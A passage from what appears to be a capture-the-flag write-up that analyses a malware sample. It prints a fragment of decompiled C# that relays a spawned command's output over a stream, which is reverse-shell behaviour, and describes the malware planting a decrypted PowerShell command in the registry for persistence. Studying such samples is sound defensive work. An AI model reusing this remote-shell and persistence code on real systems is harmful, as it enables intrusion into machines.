 ```c#
			goto IL_170;
			IL_170:;
		}
	}

	// Token: 0x0600001C RID: 28 RVA: 0x0000277C File Offset: 0x0000097C
	private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
	{
		StringBuilder stringBuilder = new StringBuilder();
		bool flag = !string.IsNullOrEmpty(outLine.Data);
		if (flag)
		{
			try
			{
				stringBuilder.Append(outLine.Data);
				Program.streamWriter.WriteLine(stringBuilder);
				Program.streamWriter.Flush();
			}
			catch (Exception ex)
			{
			}
		}
	}

	// Token: 0x04000007 RID: 7
	private static StreamWriter streamWriter;

	// Token: 0x04000008 RID: 8
	private const int KEYEVENTF_EXTENDEDKEY = 1;

	// Token: 0x04000009 RID: 9
	private const int KEYEVENTF_KEYUP = 2;

	// Token: 0x0400000A RID: 10
	private const byte VK_INSERT = 45;
}
```

Here, we can see the malware implanting a Powershell command to the registry hive after decrypting it with a static key and IV.

![mal1](/assets/posts/ibohctf2024/mal1.png)
